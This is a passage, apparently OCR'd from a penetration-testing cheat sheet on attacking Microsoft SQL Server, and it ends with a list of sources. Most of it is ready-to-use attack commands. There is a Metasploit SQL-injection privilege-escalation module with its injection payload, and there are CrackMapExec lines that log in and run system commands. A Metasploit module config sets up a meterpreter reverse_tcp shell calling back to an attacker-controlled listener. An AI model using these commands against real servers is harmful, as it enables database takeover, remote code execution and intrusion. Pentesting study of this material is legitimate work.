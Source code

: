 ```ruby
use admin/mssql/mssql_escalate_execute_as_sqli
set DATA destination='+and+1=[SQLi];--&password=1
set GET_PATH '/index.php'
set METHOD POST 
set RHOSTS TARGET_IP
set RPORT 80
```

## 6. CrackMapExec

Test connection

```sh
cme mssql TARGET_IP -u 'USERNAME' -p 'PASSWORD'
cme mssql TARGET_IP -u 'USERNAME' -p 'PASSWORD' -a normal
```

Run command

```sh
cme mssql TARGET_IP -u 'USERNAME' -p 'PASSWORD' -a normal -x 'whoami'
```

## 7. Metasploit - Remote session

```ruby
use exploit/windows/mssql/mssql_payload
set PAYLOAD windows/meterpreter/reverse_tcp
set RHOSTS TARGET_IP
set LHOST L_IP_ADDRESS
set LPORT L_PORT
```

# 8. Sources

- <https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server>
- <http://travisaltman.com/pen-test-and-hack-microsoft-sql-server-mssql/>
- <https://blog.netspi.com/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases/>
- <https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/>
- <http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet>
- <https://docs.microsoft.com/en-us/sql/database-engine/configure-windows/>>xp-cmdshell-server-configuration-option?view=sql-server-ver15>
